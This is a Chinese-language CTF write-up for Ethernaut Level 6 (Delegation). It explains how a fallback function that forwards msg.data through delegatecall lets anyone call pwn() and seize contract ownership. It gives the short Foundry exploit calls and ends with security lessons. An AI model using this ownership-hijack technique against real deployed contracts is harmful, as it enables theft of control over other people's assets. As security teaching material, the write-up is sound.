

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 6 - Delegation</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 6 - Delegation](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目的还是拿到所有权，即执行 Delegate 中的 pwn 函数


## 漏洞

这一关想让我们理解在智能合约中使用 `delegatecall` 的危险。[Delegate Calls](https://solidity-by-example.org/delegatecall/)是一个强大的工具，它允许一个合约将一个函数调用委托给另一个合约。在构建可升级合约时，这是一个非常有用的功能，但如果使用不当，它也可能非常危险。

`delegatecall`是一个低级函数，它允许被调用的合约使用调用合约的存储来执行函数。这意味着被调用的合约可以修改调用合约的状态。

### 例子

> 如果 `contractA` 使用  `delegatecall` 调用了 `contractB`,  `contractB`的代码执行环境不是他自己，而是在 `contractA`存储， `msg.sender` 和 `msg.value`的环境下执行。

在本关, `Delegation` 合约有一个 `fallback` 函数使用delegatecall调用 `Delegate`合约.

```javascript
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```

通过 `delegatecall` 调用 `pwn`函数, 我们就可以更新 `Delegation` 合约的owner.

> 在使用`delegatecall`时，slot顺序也起着重要作用。但我们会在后续的关卡中探讨这个问题吗?这里，因为两个合约都只有一个状态变量——————`address public owner`，所以我们不需要担心它。

## 解答

1. 我们先计算 `pwn()` 的函数签名:

```javascript
abi.encodeWithSignature("pwn()")
```

2. 调用 `Delegation` 合约的 `fallback` 函数， 参数填写 `pwn()` 的函数签名:

```javascript
(bool success, ) = address(instance).call(
            abi.encodeWithSignature("pwn()")
        );
```

3. 通过 `owner()` 函数检测，是否通过关卡:

```javascript
assertEq(instance.owner(), address(attacker));
```

## 要点

- 调用 `delegatecall` 的时候要格外小心，确保你了解使用委托调用的含义和潜在的安全风险.
- <b>委托调用不应该接受不可信的输入.</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
